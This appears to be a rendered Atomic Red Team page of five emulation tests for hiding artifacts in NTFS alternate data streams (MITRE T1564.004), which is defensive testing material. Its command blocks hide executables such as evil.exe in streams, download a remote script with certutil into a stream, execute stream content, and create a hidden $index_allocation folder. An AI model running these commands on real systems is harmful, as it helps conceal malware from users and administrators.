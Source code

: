 ```yaml
---
tags: [T1564_004, atomic_test]
filename: "[[T1564.004 - Hide Artifacts- NTFS File Attributes]]"
---
```

# T1564.004 - Hide Artifacts: NTFS File Attributes

## Atomic Test #1 - Alternate Data Streams (ADS)
Execute from Alternate Streams

[Reference - 1](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

[Reference - 2](https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/)

**Supported Platforms:** Windows


**auto_generated_guid:** 8822c3b0-d9f9-4daf-a043-49f4602364f4





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| path | Path of ADS file | path | c:&#92;ADS&#92;|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
extrac32 #{path}\procexp.cab #{path}\file.txt:procexp.exe
findstr /V /L W3AllLov3DonaldTrump #{path}\procexp.exe > #{path}\file.txt:procexp.exe
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1564.004/src/test.ps1 c:\temp:ttt
makecab #{path}\autoruns.exe #{path}\cabtest.txt:autoruns.cab
print /D:#{path}\file.txt:autoruns.exe #{path}\Autoruns.exe
reg export HKLM\SOFTWARE\Microsoft\Evilreg #{path}\file.txt:evilreg.reg
regedit /E #{path}\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey
expand \\webdav\folder\file.bat #{path}\file.txt:file.bat
esentutl.exe /y #{path}\autoruns.exe /d #{path}\file.txt:autoruns.exe /o
```






<br/>
<br/>

## Atomic Test #2 - Store file in Alternate Data Stream (ADS)
Storing files in Alternate Data Stream (ADS) similar to Astaroth malware.
Upon execution cmd will run and attempt to launch desktop.ini. No windows remain open after the test

**Supported Platforms:** Windows


**auto_generated_guid:** 2ab75061-f5d5-4c1a-b666-ba2a50df5b02





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload_path | Path of file to hide in ADS | path | c:&#92;windows&#92;system32&#92;cmd.exe|
| ads_file_path | Path of file to create an ADS under | path | C:&#92;Users&#92;Public&#92;Libraries&#92;yanki&#92;desktop.ini|
| ads_name | Name of ADS | string | desktop.ini|


#### Attack Commands: Run with `powershell`! 


```powershell
if (!(Test-Path C:\Users\Public\Libraries\yanki -PathType Container)) {
    New-Item -ItemType Directory -Force -Path C:\Users\Public\Libraries\yanki
    }
Start-Process -FilePath "$env:comspec" -ArgumentList "/c,type,#{payload_path},>,`"#{ads_file_path}:#{ads_name}`""
```

#### Cleanup Commands:
```powershell
Remove-Item "#{ads_file_path}" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Create ADS command prompt
Create an Alternate Data Stream with the command prompt. Write access is required. Upon execution, run "dir /a-d /s /r | find ":$DATA"" in the %temp%
folder to view that the alternate data stream exists. To view the data in the alternate data stream, run "notepad T1564.004_has_ads.txt:adstest.txt"

**Supported Platforms:** Windows


**auto_generated_guid:** 17e7637a-ddaf-4a82-8622-377e20de8fdb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | File name of file to create ADS on. | string | %temp%&#92;T1564.004_has_ads_cmd.txt|
| ads_filename | Name of ADS. | string | adstest.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo cmd /c echo "Shell code execution."> #{file_name}:#{ads_filename}
for /f "usebackq delims=?" %i in (#{file_name}:#{ads_filename}) do %i
```

#### Cleanup Commands:
```cmd
del #{file_name} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Create ADS PowerShell
Create an Alternate Data Stream with PowerShell. Write access is required. To verify execution, the the command "ls -Recurse | %{ gi $_.Fullname -stream *} | where stream -ne ':$Data' | Select-Object pschildname"
in the %temp% direcotry to view all files with hidden data streams. To view the data in the alternate data stream, run "notepad.exe T1564.004_has_ads_powershell.txt:adstest.txt" in the %temp% folder.

**Supported Platforms:** Windows


**auto_generated_guid:** 0045ea16-ed3c-4d4c-a9ee-15e44d1560d1





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | File name of file to create ADS on. | string | $env:TEMP&#92;T1564.004_has_ads_powershell.txt|
| ads_filename | Name of ADS file. | string | adstest.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
echo "test" > #{file_name} | set-content -path test.txt -stream #{ads_filename} -value "test"
set-content -path #{file_name} -stream #{ads_filename} -value "test2"
set-content -path . -stream #{ads_filename} -value "test3"
```

#### Cleanup Commands:
```powershell
Remove-Item -Path #{file_name} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: The file must exist on disk at specified location (#{file_name})
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
New-Item -Path #{file_name} | Out-Null
```




<br/>
<br/>

## Atomic Test #5 - Create Hidden Directory via $index_allocation
Create an Alternate Data Stream Directory and File with the command prompt. Write access is required. Upon execution, 
run "dir /A /Q /R" in the %temp% folder to view that the alternate data stream folder exists. To view the data in the  
alternate data stream, run "type %temp%\...$.......::$index_allocation\secrets.txt"

**Supported Platforms:** Windows


**auto_generated_guid:** 3e6791e7-232c-481c-a680-a52f86b83fdf





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| folder_name | File name of file to create inside the folder. | string | %temp%&#92;...$.......::$index_allocation|
| hidden_filename | Name of the files containing the hidden information | string | secrets.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
md #{folder_name}
echo too many secrets > #{folder_name}\#{hidden_filename}
```

#### Cleanup Commands:
```cmd
rmdir /S /Q #{folder_name} >nul 2>&1
```





<br/>
